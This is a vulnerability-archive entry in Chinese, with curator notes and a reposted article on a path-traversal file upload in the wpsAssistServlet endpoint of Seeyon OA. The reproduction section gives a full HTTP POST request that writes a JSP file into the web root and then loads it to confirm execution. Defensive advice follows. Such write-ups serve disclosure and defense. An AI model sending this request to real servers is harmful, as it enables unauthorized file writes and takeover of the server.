



# 致远A6/A8/A8N/G6/G6N wpsAssistServlet路径穿越文件上传

## 条目说明

- 对象与具体问题：致远A6/A8/A8N/G6/G6N；wpsAssistServlet路径穿越文件上传
- 版本、配置及部署条件：A6/A8/A8N V8.0SP2/8.1/8.1SP1；G6/G6N8.1/8.1SP1声称；ApacheJetspeed目录
- 认证与权限前提：样本无凭证，实际认证未明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 已按原文中的具体接口、源码或上下文直接更正产品、根因或修复说明；未知版本和未经证明的影响仍明确保留为待核实。
- multipart头体/part空行缺失；响应success:true只能是上传线索，后续JSP标记回显才支持解析
- 近期被曝光在2026转载中缺历史时点，应与旧wpsAssistServlet/CVE条合并
- 经测试均存在为作者声明，版本矩阵待厂商核

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

原创 xuzhiyang
                    xuzhiyang  玄武盾网络技术实验室   2026-01-16 06:52  
  
*免责声明：本文仅供安全研究与学习之用，  
严禁使用本内容进行未经授权的违规渗透测试，遵守网络安全法，共同维护网络安全，违者后果自负。  
  
每日学习资源分享：  
图形化未授权访问漏洞批量检测工具  
  
更多资源请访问：  
www.xwdjs.ysepan.com  
  
  
  
  
  
正文  
  
  
在企业数字化办公进程中，OA 系统作为核心协同工具，其安全性直接关系到企业数据资产与业务运营的稳定。致远 OA 作为国内广泛应用的办公协同管理软件，近期被曝光存在一处高危任意文件上传漏洞，涉及 wpsAssistServlet 接口，攻击者可利用该漏洞上传恶意文件，进而获取服务器控制权，引发严重安全风险。  
  
### 一、漏洞核心信息  
###   
#### （一）漏洞本质  
  
致远 OA 的 wpsAssistServlet 接口在处理文件上传请求时，未对上传路径与文件类型进行严格校验，存在路径穿越漏洞。攻击者通过构造特殊请求包，可绕过系统限制，将恶意脚本文件上传至服务器任意可访问目录，且文件能被服务器成功解析执行。  
  
#### （二）影响范围  
  
经测试验证，以下致远 OA 版本均存在该漏洞：  
- 致远 OA A6、A8、A8N（V8.0SP2、V8.1、V8.1SP1）  
  
- 致远 OA G6、G6N（V8.1、V8.1SP1）使用上述版本的企业用户需高度警惕，及时开展安全排查。  
  
-   
### 二、漏洞复现过程  
  
为帮助用户直观了解漏洞危害，以下为详细复现步骤（仅用于安全测试，严禁用于未授权攻击）：  
  
1. **1、构造上传请求**  
通过 POST 方法调用漏洞接口，在请求参数中指定穿越路径与恶意文件内容。请求包示例如下：  
  
```http
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/test.jsp&fileId=2 HTTP/1.1
Host: 目标服务器IP
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="test.txt"
Content-Type: application/vnd.ms-excel
<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```  
1. ****  
1. **2、验证上传结果**  
发送请求后，若服务器返回 HTTP/1.1 200 状态码，且响应数据中包含 "success:true" 字段，表明文件上传成功。  
  
  
  
1. **3、访问恶意文件**  
通过浏览器访问上传后的文件路径（http:// 目标服务器 IP/test.jsp），若页面显示 "seeyon_vuln" 内容，说明恶意脚本已被服务器成功解析，漏洞利用完成。  
  
1.   
  
  
### 三、漏洞危害警示  
###   
  
该漏洞属于高危级别，一旦被攻击者利用，可能引发多重严重后果：  
- 服务器被完全控制，攻击者可窃取企业内部文档、客户数据、财务信息等敏感内容；  
  
- 恶意文件扩散导致内网病毒传播，影响整个办公网络的正常运行；  
  
- 服务器被篡改页面、植入挖矿程序或沦为僵尸网络节点，造成企业声誉与经济损失。  
  
### 四、安全防御方案  
###   
  
为有效防范该漏洞带来的风险，建议企业采取以下紧急修复与长期防御措施：  
1. **1、紧急访问控制**  
暂时限制对/seeyon/wpsAssistServlet  
路径的外部访问，可通过防火墙规则、服务器配置等方式实现，阻断漏洞利用入口。  
  
1. **2、安装官方补丁**  
致远 OA 官方已针对该漏洞发布专项修复补丁，企业应立即联系官方技术支持，根据自身 OA 版本下载并安装对应补丁，这是最根本的修复方式。  
  
1. **3、加强文件上传校验**  
在服务器端额外配置文件上传过滤规则，严格校验文件类型、后缀名与上传路径，禁止包含路径穿越字符（如 "../"）的请求。  
  
1. **4、定期安全检测**  
建立常态化 OA 系统安全扫描机制，定期使用专业安全工具检测漏洞，及时发现并处置潜在风险。  
  
企业办公系统的安全防护需时刻保持警惕，此次致远 OA 漏洞提醒我们，及时更新补丁、强化访问控制、定期安全审计是保障系统安全的关键。建议相关企业尽快落实上述防御措施，避免因漏洞被利用造成不必要的损失。  
  
  
随手点个「推荐」吧！别逼我求你！！！  
  
  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
